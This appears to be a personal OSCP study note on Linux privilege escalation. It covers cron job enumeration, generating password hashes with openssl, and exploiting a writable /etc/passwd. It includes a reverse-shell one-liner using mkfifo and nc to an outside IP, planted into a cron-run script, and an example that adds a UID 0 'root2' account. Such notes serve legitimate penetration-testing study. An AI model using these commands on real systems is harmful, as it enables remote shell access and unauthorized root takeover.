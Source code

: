 ```yaml
---
aliases:
  - File Permissions and Password Authentication
tags:
  - tech
  - cybsec
  - offensive_security
  - offsec
  - oscp
  - linux
  - enumeration
  - enum
  - automated
  - privesc
  - privilege_escalation
  - file_permission
  - insecure_file_permission
  - password_authentication
  - password
  - authentication
author: Mehdi N Tehrani
creat_date: 2024-01-01
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```


# Cron
#cron #running_cron #crontab
## Running jobs
```
crontab -l       # for current user
sudo crontab -l  # for root user

ls -lahr /etc/cron* 
cat /etc/crontab
```
## Log
check cron log for running cron jobs
```
grep 'CRON' /var/log/syslog
```

#mkfifo #revshell #reverse_shell 
```
echo -e '#!/bin/bash\nrm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.45.216 7777 >/tmp/f' > user_backups.sh
```

# Password Authentication
#password #authentication #openssl #passwd #openssl_passwd
#crypt_algorithm #crypt #algorithm #md5 #sha256 #sha512 #md5_apache #apache
```
openssl passwd <password>

open passwd -salt <salt> -6 <password>
                          ^ algorithm: SHA512
                          ^ -5: SHA256
                          ^ -1: MD5
```
Examples:
```
$ openssl passwd -salt mysalt -1 mypass         # MD5
$1$mysalt$VdaCBUuBtLP.kQzAvdCTs/

$ openssl passwd -salt mysalt -apr1 mypass      # MD5 apache variant
$apr1$mysalt$01i53OOxVHjj71EktTIla1

$ openssl passwd -salt mysalt -5 mypass         # SHA256
$5$mysalt$Mj3PEQvKx3o5EGyen2YBELSMsvC2YrThWJT3KeCZdl0

$ openssl passwd -salt mysalt -6 mypass         # SHA512
$6$mysalt$hfk3rJdQ6OHfGsqZ./zZwSr4I0ax2/tCLLtWjXZYu6kK7mV2rdUL3/K3OAn2ZBkFGuOdkaMlsBSj7zGC6WeY.0
```


## Exploit /etc/passwd
```sh
echo "username:<passhash>:<uid>:<gid>:<group_name>:<home_dir_path>:<shell>"

# example
echo "root2:$1$mysalt$VdaCBUuBtLP.kQzAvdCTs/:0:0:root:/root:/bin/bash"
```
